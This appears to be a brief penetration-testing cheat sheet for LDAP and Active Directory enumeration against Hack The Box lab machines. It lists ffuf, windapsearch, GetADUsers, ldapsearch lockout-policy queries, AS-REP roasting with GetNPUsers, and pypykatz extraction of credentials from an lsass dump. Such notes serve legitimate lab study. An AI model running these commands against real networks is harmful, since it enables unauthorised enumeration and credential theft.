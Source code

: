 #### LDAP

- Tools:
  - ldapsearch
  - windapsearch
  - GetNPUsers.py
  - Evil-WinRM
  - pypykatz

- `./ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.175/FUZZ`
- `./windapsearch.py -d egotistical-bank.local --dc-ip 10.10.10.175 -U`
- `GetADUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -debug`
- `ldapsearch -h 10.10.10.161 -p 389 -x -b "dc=htb,dc=local"`
- ldap lockout policy:
  - `ldapsearch -D 'domain\user' -w 'passwrd' -p 389 -h 10.10.10.10 -b "dc=domain,dc=local" -s sub "*" | grep lockoutThreshold`
- `python windapsearch.py -d domain.local --dc-ip 10.10.10.161 -U`
- `GetNPUsers.py domain.local/username -dc-ip 10.10.10.161 -no-pass`
- `pypykatz lsa minidump lsass.DMP`
  - if find lsass.zip, unzip and use pypykatz
